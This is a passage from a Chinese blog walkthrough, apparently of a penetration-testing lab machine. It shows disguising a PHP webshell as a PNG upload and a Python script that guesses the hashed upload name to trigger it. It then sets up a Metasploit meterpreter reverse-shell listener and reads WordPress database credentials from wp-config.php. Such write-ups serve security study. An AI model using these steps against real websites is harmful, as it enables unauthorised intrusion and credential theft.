 ```
cat hack.php >> best.png
mv best.png sir.php
```

然后我们可以写一个python脚本来帮助我们找到并访问我们上传的木马：

```
import hashlib
import requests
for i in range(101):
    file_name = hashlib.md5('sir.php'+str(i)).hexdigest()
    r = requests.get('http://192.168.88.133:8000/uploads/{}.php'.format(file_name))
```

然后我们设置好我们的msfconsole，等待反弹shell的连接：

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.88.130
lhost => 192.168.88.130
msf5 exploit(multi/handler) > exploit
```

![818602_TZCTQVZR4AUY82Q](/blog.github.io/images/818602_TZCTQVZR4AUY82Q.png)
然后我们就可以去网站上去上传木马，然后运行python脚本，然后看到我们已经获得了一个shell：
![818602_GAQ3TURHMVPA2KB](/blog.github.io/images/818602_GAQ3TURHMVPA2KB.png)
但是我们的权限很低.....

### 提权1

我们在Web目录中找到Wordpress的配置文件wp-config.php，看到了数据库连接信息：

```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */
 
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');
 
/** MySQL database username */
define('DB_USER', 'wordpress');
 
/** MySQL database password */
define('DB_PASSWORD', 'wordpress');
 
/** MySQL hostname */
```